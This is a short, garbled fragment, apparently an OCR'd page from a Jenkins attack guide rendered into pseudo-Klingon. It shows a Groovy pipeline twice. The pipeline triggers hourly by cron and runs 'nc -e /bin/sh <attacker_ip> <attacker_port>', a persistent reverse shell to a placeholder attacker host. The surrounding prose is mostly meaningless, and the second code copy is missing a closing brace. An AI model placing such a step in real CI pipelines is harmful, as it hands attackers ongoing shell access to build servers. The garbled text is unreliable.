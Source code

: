 ```bash
agent {label 'built-in'}
```
### HoSghaj

Pipeline vItlhutlh vItlhutlh agent, cron trigger, pipeline je stage env variables, 2 variables vItlhutlh step je 'ej reverse shell bIqIj. 

```groovy
pipeline {
    agent any

    triggers {
        cron('H * * * *')
    }

    environment {
        PIPELINE_VAR = 'Hello'
        STAGE_VAR = 'World'
    }

    stages {
        stage('Example') {
            steps {
                script {
                    def var1 = env.PIPELINE_VAR
                    def var2 = env.STAGE_VAR

                    sh "echo $var1 $var2"
                    sh "nc -e /bin/sh <attacker_ip> <attacker_port>"
                }
            }
        }
    }
}
```

### tlhIngan Hol:

```groovy
pipeline {
    agent any

    triggers {
        cron('H * * * *')
    }

    environment {
        PIPELINE_VAR = 'nuqneH'
        STAGE_VAR = 'loD'
    }

    stages {
        stage('Example') {
            steps {
                script {
                    def var1 = env.PIPELINE_VAR
                    def var2 = env.STAGE_VAR

                    sh "echo $var1 $var2"
                    sh "nc -e /bin/sh <attacker_ip> <attacker_port>"
                }
            }
        }
    }
```